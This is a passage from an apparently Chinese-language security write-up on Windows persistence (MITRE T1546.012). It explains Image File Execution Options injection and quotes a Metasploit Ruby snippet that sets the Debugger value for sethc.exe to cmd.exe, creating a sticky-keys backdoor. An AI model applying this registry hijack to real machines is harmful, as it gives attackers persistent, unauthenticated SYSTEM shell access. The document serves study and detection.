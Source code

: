 ## 0x05 辅助功能镜像劫持(`T1546.012 Image File Execution Options Injection`)

谈 Image File Execution Options Injection, 首先要搞明白 Image File Execution Options(IFEO) 是什么

IFEO 中文译为 镜像文件执行选项, 从名字也可以得出, 可执行文件执行时, 会检查并加载这些选项再执行可执行文件. 

`Debugger` 参数可方便程序员使用调试器调试程序, 也成为一种隐藏执行其他程序的有效方式

而 IFEO Injection, 就是将要劫持的文件的 Debugger 改为我们想要执行的程序

IFEOs 路径: `HKLM\SOFTWARE{{\Wow6432Node}}\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\`

msf 的 `post/windows/manage/sticky_keys` 模块使用了此手法, 主要原理为:

```ruby
include Msf::Post::Windows::Registry

DEBUG_REG_PATH = 'HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options'
DEBUG_REG_VALUE = 'Debugger'

target_exe_name = 'target executable to inject, e.g., sethc.exe'
command = 'executable to execute, e.g., %SYSTEMROOT%\system32\cmd.exe'
target_key = "#{DEBUG_REG_PATH}\\#{target_exe_name}"

registry_createkey(target_key)
registry_setvaldata(target_key, DEBUG_REG_VALUE, command, 'REG_SZ')
```

使用 Process Monitor 观察 msf 执行 sticky keys 时的操作:

![Process Monitory msf sticky keys](assets/ProcessMonitor_msf_sticky_keys.png)
